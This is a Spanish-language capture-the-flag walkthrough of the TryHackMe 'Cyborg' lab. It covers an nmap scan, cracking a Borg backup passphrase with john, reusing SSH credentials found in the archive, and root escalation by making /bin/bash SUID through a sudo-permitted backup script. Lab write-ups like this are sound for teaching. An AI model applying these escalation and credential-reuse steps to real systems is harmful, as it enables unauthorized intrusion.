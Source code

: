 #Linux #Easy 
### nmap 
```python
Nmap scan report for 10.10.154.71
Host is up (0.23s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.84 seconds
```

### Ports:
```c
	22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
	8080/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

### en la pagina podemos encontrar archivos de configuracion que podemos descargar
![[Pasted image 20240612142852.png]]

descargamos esto para echar un vistazo.
### parece que estamos ante un repositorio. debemos descargarlo configurarlo y montarlo para saber que hay dentro.

### instalacion
```java
	sudo apt install borgbackup   
```
### montamos el directorio de la siguiente manera:
```python
borg mount /home/kali/Desktop/thm/Cyborg/home/field/dev/final_archive /home/kali/Desktop/thm/Cyborg/repository
```
al montar el directorio nos pide una clave la cual buscaremos con john.

![[Pasted image 20240612142905.png]]

buscaremos la clave en el archivo que conseguimos en la pagina llamado passwd utilizaremos john para intentar sacar la clave
![[Pasted image 20240612142919.png]]
### clave
```c
squidward
```

### al montar el repositorio navegamos entre las carpetas y conseguimos algo interesante:
![[Pasted image 20240612142941.png]]
### Credenciales:
```c
alex : S3cretP@s3
```
conseguimos lo que parece ser credenciales del usuario alex. vamos a mirar el pueto 22 SSH las credenciales de alex que hemos conseguido
![[Pasted image 20240612142955.png]]
### escalar privilegios: ejecutamos sudo -l 
![[Pasted image 20240612143003.png]]
parece que todo los usuarios tienen todos los permisos sobre /etc/mp3/backups/backup.sh
vamos hacer un cat para ver que hace este archivo
![[Pasted image 20240612143009.png]]

![[Pasted image 20240612143015.png]]
### parece que el la primera parte del script define una flag y la llama c y al final del script le dice que cmd=$( $ command) 

al parecer todo lo que le indiquemos al script con la flag -c sera igual a comandos ejecutados por cmd. asi que usaremos esto para llamar una bash como root con el siguiente codigo.

llamamos al scritp como sudo de la siguiente forma.
```python
	sudo /etc/mp3backups/backup.sh 
```
llamamos la bandera c y aprovecharemos esto para darle permisos a la bash como usuario root. para despues llamarla. de la siguiente manera.
```python
	sudo /etc/mp3backups/backup.sh -c "chmod u+s /bin/bash"
```
### hacemos bash -p
![[Pasted image 20240612143024.png]]
hemos cambiado los permisos de la bash para que se ejecute como sudo y cuando hacemos bash -p nos da una bash como root
### WE ARE ROOT